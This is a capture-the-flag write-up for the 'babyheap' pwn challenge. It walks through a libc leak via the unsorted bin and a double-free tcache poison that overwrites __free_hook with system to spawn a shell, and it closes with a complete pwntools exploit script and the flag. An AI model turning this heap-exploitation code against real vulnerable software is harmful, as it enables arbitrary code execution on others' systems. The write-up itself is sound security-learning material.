




## 0x41414141 CTF: babyheap [pwn]


##### *tl;dr: double free to perform a tcache poison*
## Background Information
#### After some time of studying, I finally exploited my first heap pwn chall on an ongoing ctf! Although this was of baby difficulty, I consider this as a win and the first of more heap pwn solves to come. As a bonus, I was the fourth player to flag the challenge. This will only be a rushed writeup, I will go in depth with explanations later when I have time.

## Function Details
#### We were given the common menu based heap challenge, along with the libc and ld files. All the protections were turned on and the binary was not stripped making reverse engineering easier. The menu offered three options which are as follows:


#### 1. alloc memory: this option prompts for user-controlled sizes which malloc will allocate, asks for what index to store the chunk in, and scans data to be placed into the chunk "body". Once an index has been filled, it cannot be used again even when the chunk contained in the index has already been freed. It is important to take note of this detail as it restricts some choices later. We are only allowed a total of 8 allocations. Reads data up to the size provided, no overflows. 

#### 2. show data: we simply provide an index and the program prints out the contents of that chunk to us.

#### 3. free memory: frees the chunk at a given index but does not null out the pointer thus allowing for use-after-free situations. 

## Attack plans for GLIBC 2.27
#### In this version of libc, the tcache is introduced. Basically, it's a mechanism designed to reuse recently allocated memory chunks to improve performance. For a brief overview of what it does, it stores 7 chunks of the same size into a singly linked list, where the fd pointer of a freed chunk points to the next entry in the bin. If the list for a certain size has reached the limit, the freed chunk will be stored into the unsorted bin list, where it will contain a pointer to the main arena (somewhere within libc). 

#### Although additional checks are added (like the provided snippet below), we can still bypass and perform a double free attack for the challenge. We will use this double free to do a tcache poison and trick malloc into returning a pointer to `__free_hook` to us. Since malloc checks whether the chunk we want to free is already at the top of the tcache list, we simply insert another chunk in between to bypass it.

```c
    if (SINGLE_THREAD_P)
      {
	/* Check that the top of the bin is not the record we are going to
	   add (i.e., double free).  */
	if (__builtin_expect (old == p, 0))
	  malloc_printerr ("double free or corruption (fasttop)");
	p->fd = old;
	*fb = p;
      }
    else
      do
	{
	  /* Check that the top of the bin is not the record we are going to
	     add (i.e., double free).  */
	  if (__builtin_expect (old == p, 0))
	    malloc_printerr ("double free or corruption (fasttop)");
	  p->fd = old2 = old;
	}
```

## Unsorted bin leak
#### The first steps to a heap exploit would usually be heap fengshui (grooming the heap) and a libc leak. But due to restrictions, we can't simply allocate and free 8 chunks to get a leak. What I did was allocate a chunk with a size that is not serviceable by the tcache bin and instead will go to the unsorted bin. Since it will have its fd and bk pointers set, I will reallocate the chunk and only overwrite the fd pointer then print out the contents along with the libc infoleak (it will work because our input is not null terminated). An extra allocation should also be placed so that the chunk does not consolidate into the top chunk.

```python
alloc_chunk(0x410, 0, 'A' * 0x410) #: SEND THIS CHUNK TO UNSORTED BIN
alloc_chunk(0x20, 1, 'B' * 0x20) #: AVOID CONSOLIDATION WITH TOP CHUNK

#: LEAK MAIN ARENA POINTER
free_chunk(0)
alloc_chunk(0x410, 2, '1111111') #: CHUNK FROM UNSORTED BIN
p.sendline('2')
p.sendline('2')

leak = u64(p.recvuntil('Exit\n').split('\n')[3].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0

print(hex(leak))
print(hex(libc_base))
```



## double free to tcache poison
#### With the leak, we can simply calculate the libc base address and offsets. Nex step is to do a double free then allocate a chunk and set the fd pointer of the double free'd chunk into the address of `__free_hook`. With this we get to add the address of the hook into the tcache free list. 

```python
#: DOUBLE FREE TO GET __free_hook
alloc_chunk(0x20, 3, 'C' * 0x20)

free_chunk(1)
free_chunk(3) #: ADD A CHUNK IN BETWEEN TO BYPASS SECURITY CHECKS
free_chunk(1)

alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON TO ADD FREE HOOK ADDRESS TO TCACHE
```

#### From this point, we simply allocate chunks until malloc gives us the pointer to the hook. When we get the hook pointer, we overwrite it with the address of system so that the next time we free a chunk, it calls system before freeing it. Since we will have access to system, we also need to allocate a chunk with `'/bin/sh\x00'` as its first 8 bytes and free it to get a shell.

```python
alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON
alloc_chunk(0x20, 5, '/bin/sh\x00') #: ARGUMENT TO SYSTEM
alloc_chunk(0x20, 6, 'PLACEHOLDER')
alloc_chunk(0x20, 7, p64(libc_base + libc.symbols['system'])) #: CHUNK ON TOP OF __free_hook

p.interactive()
```


#### As we get dropped into the interactive prompt, we simply input the options to free the chunk on the 5th index and then we enjoy our shell!


#### exploit.py
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./babyheap', checksec = False)
libc = ELF('./libc/libc-2.27.so', checksec = False)

#p = process('./babyheap', env = {'LD_PRELOAD' : './libc/libc-2.27.so'})
p = remote("185.172.165.118", 5555)
print(p.recvuntil('Exit\n'))

#: GDB SETTINGS
breakpoints = ['brva 0x1363', 'brva 0x151a']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(size, index, data):

	p.sendline('1')
	p.sendline(str(size))
	p.sendline(str(index))
	p.sendline(data)
	print(p.recvuntil('Exit\n'))

def free_chunk(index):

	p.sendline('3')
	p.sendline(str(index))
	print(p.recvuntil('Exit\n'))

#: PWN THY VULNS
alloc_chunk(0x410, 0, 'A' * 0x410) #: SEND THIS CHUNK TO UNSORTED BIN
alloc_chunk(0x20, 1, 'B' * 0x20) #: AVOID CONSOLIDATION WITH TOP CHUNK

#: LEAK MAIN ARENA POINTER
free_chunk(0)
alloc_chunk(0x410, 2, '1111111') #: CHUNK FROM UNSORTED BIN
p.sendline('2')
p.sendline('2')

leak = u64(p.recvuntil('Exit\n').split('\n')[3].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0

print(hex(leak))
print(hex(libc_base))

#: DOUBLE FREE TO GET __free_hook
alloc_chunk(0x20, 3, 'C' * 0x20)

free_chunk(1)
free_chunk(3) #: ADD A CHUNK IN BETWEEN TO BYPASS SECURITY CHECKS
free_chunk(1)

alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON
alloc_chunk(0x20, 5, '/bin/sh\x00') #: ARGUMENT TO SYSTEM
alloc_chunk(0x20, 6, 'PLACEHOLDER')
alloc_chunk(0x20, 7, p64(libc_base + libc.symbols['system'])) #: CHUNK ON TOP OF __free_hook

p.interactive()
#: fl4g{us1ng_4_d0ubl3_fr33_1s_s1mpl3r_s41d_th4n_d0n3_8329321}
```
